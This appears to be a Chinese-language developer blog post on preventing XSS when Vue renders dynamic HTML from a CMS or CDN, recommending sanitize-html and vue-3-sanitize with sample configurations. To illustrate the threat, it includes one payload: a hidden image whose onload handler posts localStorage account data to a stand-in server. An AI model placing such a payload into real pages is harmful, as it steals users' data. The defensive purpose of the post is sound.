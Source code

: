 ```yaml
---
title: Vue Dynamic HTML Prevent XSS
date: 2022-06-26 23:39:36
tags:
  - Vue
  - v-html
  - v-sanitize
  - v-runtime-template
---
```


在開發系統中 有可能會需要使用到 CMS 系統或是動態抓取 CDN 的頁面 取得

使用者動態設定的樣板或是 Banner 這裡一般人可能不會特別想到就是 XSS Attack

我曾經遇過公司 有駭客入侵將靜態的 html 檔案裏面故意塞惡意程式碼，導致使用者看到錯誤畫面的狀況(被導走到其他頁面)

(ex: 這些 html 可能被駭客塞一些 js or redirect 導到錯誤網站 讓使用者看到一些錯誤資訊)

可以參考這篇
[Vue XSS Attack Guide](https://www.stackhawk.com/blog/vue-xss-guide-examples-and-prevention/#injecting-the-malicious-script)

舉例來說我們可以透過隱藏的圖片發送 request 給 駭客的 Server 並且偷取到對應的 Cookie or Session ....

```html
<img
  src="xxxx"
  style="display:none"
  onload="fetch('https://test.api/', {method: 'POST', body: localStorage.getItem('account')})"
/>
```

這裡列出兩種 vue 的 componet 可以動態 compile html ，這裡列出來用途以及差異
| Plugnin | Support | different | |
|--------------------|--------|--- --------|---|
| v-html | 只支援純粹 HTML 無法支援 vue custom component | 無法防止 XSS attack |
| v-runtime-template | 支援 vue custom component & variabe (需事先定義好) | 無法防止 XSS attack |

可能大家沒有感覺 那我們先來看以下範例
如果沒有透過過濾不合法的 tag 在上面的 Demo 內 會出現什麼呢?

1. xss 的 alert
2. 非法的 iframe (假設我們沒有規定 iframe 是可以出現的)

[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)

接下來我們介紹今天的主角 Sanitize html

[sanitize html](https://github.com/apostrophecms/sanitize-html)
在 Vue 3 裡面可以用[vue-3-sanitize](https://github.com/vannsl/vue-3-sanitize)

套件

我們這裡可以透過此套件將 HTML 不合法的 TAG 或是相對應的 TAG 做一些限制以及過濾
這裡列出兩大項

1. 限制動態 HTML 的 TAG

Default options

```javascript
allowedTags: [
  "address", "article", "aside", "footer", "header", "h1", "h2", "h3", "h4",
  "h5", "h6", "hgroup", "main", "nav", "section", "blockquote", "dd", "div",
  "dl", "dt", "figcaption", "figure", "hr", "li", "main", "ol", "p", "pre",
  "ul", "a", "abbr", "b", "bdi", "bdo", "br", "cite", "code", "data", "dfn",
  "em", "i", "kbd", "mark", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp",
  "small", "span", "strong", "sub", "sup", "time", "u", "var", "wbr", "caption",
  "col", "colgroup", "table", "tbody", "td", "tfoot", "th", "thead", "tr"
],
disallowedTagsMode: 'discard',
allowedAttributes: {
  a: [ 'href', 'name', 'target' ],
  // We don't currently allow img itself by default, but
  // these attributes would make sense if we did.
  img: [ 'src', 'srcset', 'alt', 'title', 'width', 'height', 'loading' ]
},
// Lots of these won't come up by default because we don't allow them
selfClosing: [ 'img', 'br', 'hr', 'area', 'base', 'basefont', 'input', 'link', 'meta' ],
// URL schemes we permit
allowedSchemes: [ 'http', 'https', 'ftp', 'mailto', 'tel' ],
allowedSchemesByTag: {},
allowedSchemesAppliedToAttributes: [ 'href', 'src', 'cite' ],
allowProtocolRelative: true,
enforceHtmlBoundary: false
```

2. 限制 CSS & Script & iframe 語法

```javascript
const clean = sanitizeHtml(
  '<script src="https://www.safe.authorized.com/lib.js"></script>',
  {
    allowedTags: ['script'],
    allowedAttributes: {
      script: ['src'],
    },
    allowedScriptDomains: ['authorized.com'],
  }
);
```

```css
onst clean = sanitizeHtml(dirty, {
        allowedTags: ['p'],
        allowedAttributes: {
          'p': ["style"],
        },
        allowedStyles: {
          '*': {
            // Match HEX and RGB
            'color': [/^#(0x)?[0-9a-f]+$/i, /^rgb\(\s*(\d{1,3})\s*,\s*(\d{1,3})\s*,\s*(\d{1,3})\s*\)$/],
            'text-align': [/^left$/, /^right$/, /^center$/],
            // Match any number with px, em, or %
            'font-size': [/^\d+(?:px|em|%)$/]
          },
          'p': {
            'font-size': [/^\d+rem$/]
          }
        }
      });
```

根據上面的設定後

可以對照[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)
透過 sanitize 過濾掉有問題的語法 避免 XSS 攻擊

```javascript
this.$sanitize(this.message);
```

### 範例

那如果像剛剛這樣 假設我們想要允許特定 Domain 的 iframe 要怎麼辦呢

我們可以透過 OverideOption 將特定的 domain & tag 掛上去 這樣就可以避免 User 掛載一些奇怪的 Domain

```javascript
const overridenOptions = {
  allowedTags: ['iframe'],
  allowedAttributes: {
    iframe: ['src'],
  },
  allowedIframeHostnames: ['www.youtube.com'],
};
```

因為靜態檔案最容易被人動手腳 尤其是系統一大 檔案一多不會有人時時刻刻去檢查...就需要有這種檢查幫助我們去過濾語法

# Reference

[XSS(Cross site scripting) 簡單範例](https://ithelp.ithome.com.tw/articles/10238479)
[XSS Sample](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)
[Vue 3 Sanitize](https://github.com/vannsl/vue-3-sanitize)
